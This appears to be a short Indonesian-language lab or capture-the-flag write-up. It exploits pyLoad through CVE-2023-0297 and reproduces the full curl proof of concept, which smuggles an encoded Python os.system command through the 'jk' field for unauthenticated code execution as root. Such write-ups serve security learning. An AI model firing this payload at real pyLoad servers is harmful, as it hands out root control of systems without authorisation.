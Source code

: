 <figure><img src="../../.gitbook/assets/pyload services.png" alt=""><figcaption><p>pyLoad</p></figcaption></figure>

Dari hasil searching, ditemukan exploit untuk pyLoad yakni [**CVE-2023-0297**](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/).

Pertama, langsung saya coba PoC yang terdapat halaman huntr.

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8001' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8001/flash/addcrypted2'
```

Ternyata berhasil. Pada direktori /tmp di server terdapat file **pwnd**. Menariknya, file tersebut dimiliki oleh user **root**.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption><p>root file</p></figcaption></figure>

